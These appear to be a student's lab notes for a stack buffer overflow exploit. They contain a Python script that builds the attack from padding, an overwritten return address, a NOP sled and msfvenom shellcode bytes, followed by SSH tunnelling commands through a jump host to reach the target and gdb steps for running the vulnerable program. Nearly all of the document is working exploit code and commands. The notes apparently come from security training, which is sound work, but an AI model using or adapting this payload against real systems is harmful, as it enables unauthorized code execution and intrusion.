 ## successful execution  --- user student




## Copy and paste script to remote machine
------------------------------------------------------------------------------------------------
overflow = "A" * 76

##change eip to the reverse indian of returned values above##
eip = "\x43\x53\xf6\xf7"

##create NOP sled##
nop = "\x90" * 10

## SHELLCODE from msfvenom command ## 
buf =  b""
buf += b"\xd9\xe1\xb8\xbc\x52\x40\xcb\xd9\x74\x24\xf4\x5e"
buf += b"\x29\xc9\xb1\x0b\x31\x46\x19\x83\xee\xfc\x03\x46"
buf += b"\x15\x5e\xa7\x2a\xc0\xc6\xd1\xf9\xb0\x9e\xcc\x9e"
buf += b"\xb5\xb9\x67\x4e\xb5\x2d\x78\xf8\x16\xcf\x11\x96"
buf += b"\xe1\xec\xb0\x8e\xf5\xf2\x34\x4f\x8d\x9a\x5b\x2e"
buf += b"\x1c\x33\xa4\xe7\x8d\x4a\x45\xca\xb2"

print(overflow + eip + nop + buf)
------------------------------------------------------------------------------------------------


## ssh to remote machine

# ssh -MS /tmp/jump student@10.50.28.189 
# ssh -S /tmp/jump -O forward -L10100:192.168.28.111:2222 DUMB
# ssh -MS /tmp/T1 comrade@127.0.0.1 -p10100


## Go to directory with executable

# env - gdb func
# unset env LINES
# unset env COLUMNS
# run
